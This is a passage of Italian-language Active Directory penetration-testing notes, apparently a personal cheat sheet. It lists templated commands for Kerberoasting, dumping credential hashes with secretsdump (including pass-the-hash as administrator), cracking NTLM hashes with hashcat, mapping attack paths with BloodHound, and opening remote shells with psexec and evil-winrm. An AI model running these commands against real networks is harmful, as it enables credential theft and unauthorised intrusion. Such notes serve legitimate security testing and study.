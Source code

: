 oppure

```bash
impacket-GetUserSPNs <DOMAIN>/<user>:<PASSWORD> -dc-ip <IP> -request
```

5. Eseguire *secretsdump* per ottenere un dumping degli hash nel caso in cui l’utente abbia i privilegi adeguati (usando la password dell’utente o l’hash)

```bash
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

oppure se abbiamo l’hash NTLM dell’administrator (local admin)

```bash
impacket-secretsdump administrator:@<IP> -hashes <HASH>
```

usando hashcat per tentare il cracking (nel caso di NTLMv1, modulo 1000)

```bash
hashcat -m 1000 <ntlm.txt> <wordlist.txt>
```

6. Eseguire B***loodhound*** per analizzare le relazioni e i percorsi di attacco migliori

```bash
sudo bloodhound-python -d <DOMAIN> -u <USER> -p <PASSWORD> -ns <IP> -c all
```

```bash
sudo neo4j console
```

```bash
sudo bloodhound
```

*Importo in bloodhound i file json creati col primo comando*

7. Se desidero avere un report completo più chiaro, posso eseguire *Plumhound* abbinato a *Bloodhound* (che deve rimanere attivo assieme a neo4j) per poi analizzare i risultati

```bash
sudo python3 PlumHound.py -x tasks/default.tasks -p <NEO4JPASSWORD>
```

---

## Tentare l’accesso

1. Cerco una shell con ***psexec*** o ***evilwin-rm***

```bash
impacket-psexec <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

```bash
sudo evil-winrm -i <IP-TARGET> -u <USER> -p <PASSWORD>
```

2. Se abbiamo degli *hash* validi che non sono stati crackati possiamo cercare una shell sfruttando quelli e provare i ***pass-the-hash attac***k, eventualmente con l’utente “administrator”
